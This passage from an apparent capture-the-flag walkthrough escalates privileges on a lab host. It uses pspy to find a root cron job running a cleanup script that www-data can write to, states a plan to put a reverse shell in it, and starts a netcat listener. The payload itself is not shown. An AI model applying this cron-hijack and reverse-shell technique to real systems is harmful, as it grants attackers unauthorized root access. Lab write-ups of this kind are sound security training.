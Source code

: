 ```
-rwxr-sr-x  1 root tty       22760 Jan 20  2022 write.ul
```

`write.ul`...

I dont find any way to usefully abuse this binary...

I'll try using [`pspy`](https://github.com/DominicBreuker/pspy) to get running processes...

(I downloaded the "64 bit big, static version" from the links in the README there)

Found some interesting processes running as root. Particularly that cleanup script in `/var/www/cleanup.sh`

```
www-data@law:/var/www/html$ ./pspy64 -pf -i 1000
./pspy64 -pf -i 1000
              ( ... output omitted... )
2024/03/06 11:32:01 CMD: UID=0     PID=922    | /usr/sbin/CRON -f
              ( ... output omitted... )
2024/03/06 11:32:01 CMD: UID=0     PID=923    | /bin/bash /var/www/cleanup.sh 
              ( ... output omitted... )
```

We go find that script

```
www-data@law:/var/www$ ls -la
ls -la
total 20
drwxr-xr-x  3 root     root     4096 Aug 25  2023 .
drwxr-xr-x 12 root     root     4096 Aug 24  2023 ..
-rwxr-xr-x  1 www-data www-data   82 Aug 25  2023 cleanup.sh
drwxr-xr-x  2 www-data www-data 4096 Mar  6 11:29 html
-rw-r--r--  1 www-data www-data   33 Mar  6 11:21 local.txt
```

We notice that it is writable! yay!

Contents of the script originally:

```
www-data@law:/var/www$ cat cleanup.sh	
cat cleanup.sh
#!/bin/bash

rm -rf /var/log/apache2/error.log
rm -rf /var/log/apache2/access.log
```

I'll dump a reverse shell in there.

I'm having trouble writing it in this shitty shell, so I write the script in my kali machine and intend on downloading it here.

I start my local listener to catch the reverse shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4100              
listening on [any] 4100 ...
```
